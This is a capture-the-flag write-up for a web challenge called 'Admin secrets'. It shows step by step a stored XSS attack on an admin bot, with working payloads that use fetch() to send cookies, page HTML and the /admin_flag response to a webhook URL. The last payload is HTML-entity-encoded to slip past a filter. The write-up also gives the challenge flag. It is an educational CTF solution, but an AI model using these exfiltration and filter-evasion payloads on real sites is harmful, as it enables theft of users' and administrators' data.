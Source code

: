 # Admin secrets

Category: Web

This challenge is a simple XSS challenge, but with many hoops to jump through. [webhook.site](webhook.site) is really useful for these challenges.  

A simple 

```html
<script>fetch("<webhook url>?"+document.cookie)</script>
```

doesn't work because no cookies are used. Inspecting the HTML of the page reveals an admin section: 

```html
<div class="col-8 admin_console">
  <!-- Only the admin can see this -->
</div>
```

Unfortunately, the admin section is after the injected content, so attempting to access it immediately would cause a null pointer exception as it does not exist yet. A timeout is used to mitigate this:

```html
<script>
setTimeout(()=>{
  fetch("<webhook url>?"+encodeURIComponent(document.querySelector(".admin_console").innerHTML))
},100)
</script>
```

The HTML of the admin console is revealed:

```html
<button class="btn btn-primary flag-button">Access Flag</button>
```

Hmm, still no flag. To investigate further, we can retrieve the HTML of the whole admin page:

```html
<script>
setTimeout(()=>{
  fetch("<webhook url>?"+encodeURIComponent(document.querySelector("body").innerHTML))
},100)
</script>
```

The exposed HTML is more interesting:

```html
<script>
    var_flag='';
    f=function(e){ 
        $.ajax({ 
            type:"GET",
            url:"/admin_flag", 
            success:function(resp){
            	flag=resp;
            	$("#responseAlert").text(resp);
            	$("#responseAlert").css("display","");
           	}
        })
        return flag;
    };
    $('.flag-button').on('click',f);
</script>
```

It appears the flag can be accessed using the `/admin_flag` endpoint :thinking:.

Unfortunately, no response is received from the admin. Perhaps some filtering is in place. Base64 encoding the response should help.

```html
<script>
fetch("/admin_flag").then(a=>a.text()).then(flag=>
  fetch("<webhook url>?"+encodeURIComponent(btoa(flag)))
)
</script>
```

Base64 decoded response:

`This post contains unsafe content. To prevent unauthorized access, the flag cannot be accessed for the following violations: Script tags found. Double quote found. Parenthesis found. `

No big deal, I'll just use img tags and [HTML encode](http://evuln.com/tools/xss-encoder/) the payload instead:

```html
<img src=bleh onerror=&#x66;&#x65;&#x74;&#x63;&#x68;&#x28;&#x22;&#x2F;&#x61;&#x64;&#x6D;&#x69;&#x6E;&#x5F;&#x66;&#x6C;&#x61;&#x67;&#x22;&#x29;&#x2E;&#x74;&#x68;&#x65;&#x6E;&#x28;&#x61;&#x3D;&#x3E;&#x61;&#x2E;&#x74;&#x65;&#x78;&#x74;&#x28;&#x29;&#x29;&#x2E;&#x74;&#x68;&#x65;&#x6E;&#x28;&#x66;&#x6C;&#x61;&#x67;&#x3D;&#x3E;&#x0A;&#x20;&#x20;&#x66;&#x65;&#x74;&#x63;&#x68;&#x28;&#x22;&#x3C;&#x77;&#x65;&#x62;&#x68;&#x6F;&#x6F;&#x6B;&#x20;&#x75;&#x72;&#x6C;&#x3E;&#x3F;&#x22;&#x2B;&#x65;&#x6E;&#x63;&#x6F;&#x64;&#x65;&#x55;&#x52;&#x49;&#x43;&#x6F;&#x6D;&#x70;&#x6F;&#x6E;&#x65;&#x6E;&#x74;&#x28;&#x62;&#x74;&#x6F;&#x61;&#x28;&#x66;&#x6C;&#x61;&#x67;&#x29;&#x29;&#x29;&#x0A;&#x29;>
```

Base64 decoded flag: `tjctf{st0p_st3aling_th3_ADm1ns_fl4gs}`

